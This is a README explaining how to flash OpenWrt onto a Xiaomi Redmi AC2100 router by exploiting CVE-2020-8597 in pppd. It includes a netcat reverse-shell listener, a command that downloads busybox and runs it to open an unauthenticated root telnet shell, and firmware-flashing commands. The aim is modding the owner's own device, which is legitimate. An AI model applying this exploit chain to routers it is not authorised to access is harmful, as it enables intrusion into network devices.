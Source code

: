 # Xiaomi Redmi Router AC2100

The Xiaomi Redmi Router AC2100 is a wireless router based on the MT7621 platform. While it can be acquired for relatively low cost compared to other units with similar specifications, it requires a somewhat complex installation process in order to bypass a locked down stock firmware to install OpenWrt.

## Installation

Installation of OpenWrt on this device requires exploiting [CVE-2020-8597](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8597) to achieve shell access.

### Requirements

- A computer with an ethernet adapter
- Two ethernet cables
- python 3 and required libraries `pip install -r requirements.txt`
- netcat

### Instructions

These instructions assume that the ethernet interface being used is named eth0, please adjust the interface name to your own setup as required within the python scripts. Some of these commands may require to be run as root.

#### Initial setup

1. Setup your ethernet interface with the ip address: `192.168.31.177`
2. Bridge the `WAN` port on the router with one of the `LAN` ports on the router by connecting an ethernet cable between them.
3. Connect your computer to the router with your other ethernet cable.

``` bash
# Start our PPPoE emulator
python pppoe-simulator.py
```

Now we can run our router through the initial setup wizard on `http://192.168.31.1`, during which PPPoE should be auto-detected and chosen. Any combination of credentials are acceptable.

``` bash
# A quick http server for the current directory (ie. Where you have placed your OpenWrt images)
python -m http.server 80
# And in another window...
netcat -nvlp 31337
```

#### Running the exploit

``` bash
# In another window to trigger the exploit
python pppd-cve.py
```

In your terminal with netcat open you should see an incoming connection from the router, and we can begin **typing in commands below on that same terminal** to be run on the router.

``` bash
cd /tmp && wget http://192.168.31.177/busybox-mipsel && chmod +x ./busybox-mipsel && ./busybox-mipsel telnetd -l /bin/sh
```

If you are disconnected prematurely, just start the netcat listener and exploit script again.

After you have secured telnet access to the device you can wget the OpenWrt images onto the device and flash them.

#### Writing the OpenWrt images

After connecting to telnet on 192.168.31.1 :

``` bash
wget http://192.168.31.177/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-kernel1.bin
wget http://192.168.31.177/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-rootfs0.bin
# Enable uart and bootdelay, useful for testing or recovery if you have an uart adapter!
nvram set uart_en=1
nvram set bootdelay=5
# Set kernel1 as the booting kernel
nvram set flag_try_sys1_failed=1
# Commit our nvram changes
nvram commit
# Flash the kernel
mtd write openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-kernel1.bin kernel1
# Flash the rootfs and reboot
mtd -r write openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-rootfs0.bin rootfs0
```

If all has gone well, you should be rebooting into OpenWrt.

#### Install Luci

ssh connect 192.168.1.1 login as: root (root is also the default password)

``` bash
root@OpenWrt:~# opkg update
root@OpenWrt:~# opkg install luci
```
